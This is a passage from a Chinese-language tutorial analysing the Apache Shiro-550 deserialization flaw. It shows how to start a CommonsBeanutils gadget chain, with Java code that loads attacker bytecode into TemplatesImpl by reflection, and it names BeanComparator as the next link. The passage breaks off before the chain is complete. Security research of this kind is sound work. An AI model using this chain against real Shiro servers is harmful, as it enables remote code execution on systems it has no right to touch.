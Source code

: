 上边也说了，shiro原生是不带CC依赖的，所以打原生就要用到CB了，如果是按上述流程搭建的环境，那么shiro自带的CB是1.8.3版本的，我们接下来看看链子应该怎么构造：

首先，CB链最后的命令执行流程还是和CC3是一样的，因为利用的是Java的反射机制和动态类加载的特性，我们先把前边的拿过来：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
```

按原先CC3的步骤，我们是直接利用TrAXfilter类进行templates的newTransformer方法的触发，但这里我们CB依赖里是没有这个类的，因此我们就要从TemplatesImpl类中找一下能命令执行的点，实际上这里用的就是CB中的PropertyUtils.getProperty方法，它能够获取类的实例化对象中的JavaBean格式的方法，而TemplatesImpl类中恰好有符合JavaBean格式，且能够利用的方法：

<img src="JAVA%E5%AE%89%E5%85%A8shiro-550%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/1711199986851.png" alt="1711199986851" style="zoom: 67%;" />

而PropertyUtils类是没有继承序列化接口的，我们需要在CB依赖中找到一个调用PropertyUtils.getProperty方法的类且继承了序列化接口，这里我们使用BeanComparator类，其中有着compare方法：
